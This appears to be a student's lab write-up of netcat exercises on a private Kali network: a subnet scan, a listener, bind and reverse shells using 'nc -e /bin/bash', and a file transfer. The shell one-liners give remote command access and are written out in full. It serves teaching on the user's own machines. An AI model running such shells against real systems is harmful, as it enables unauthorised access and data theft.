 ```console
berkankutuk@kali:~$ nmap -sT -A 10.0.2.0/24
```

**Perform all examples for netcat, i.e.,**  
**Create a listener and connect to it from another terminal window cf. "Opening Pipes Over the Network".**  

```console
berkankutuk@kali:~$ nc -lvp 1337 # Listening on a port
```

and from another terminal 

```console
berkankutuk@kali:~$ ifconfig # Find machine ip=10.0.2.15
berkankutuk@kali:~$ nc 10.0.2.15 1337 # Connecting to port
```

**Connect to a remote shell cf. "Opening a Shell Over the Network with netcat".**  
Host machine ip: 10.0.2.15

```console
berkankutuk@kali:~$ nc -lvp 1337 -e /bin/bash # Opening the tunnel
```

and from the remote machine

```console
berkankutuk@kali:~$ nc 10.0.2.15 1337 # Connecting to the port
berkankutuk@kali:~$ whoami # Testing access
```

**Perform the "Basic Reverse Shell" example.**  
Host machine ip: 10.0.2.15

```console
berkankutuk@kali:~$ nc -lvp 1337 # Opening port
```

now to the target machine

```console
berkankutuk@kali:~$ nc 10.0.2.15 1337 -e /bin/bash # Connecting to the port
```

and back to host machine

```console
berkankutuk@kali:~$ whoami # Testing access
```

**Transfer a file with netcat.**  
Host machine ip: 10.0.2.15

```console
berkankutuk@kali:~$ echo 'password is: iamhecker' >> secret.txt # Creating the file
berkankutuk@kali:~$ nc -lvp 1337 < secret.txt # Opening port and streaming the file
```

on another machine

```console
berkankutuk@kali:~$ nc 10.0.2.15 1337 > received.txt # Connecting to the port
berkankutuk@kali:~$ cat received.txt # Checking the content
```
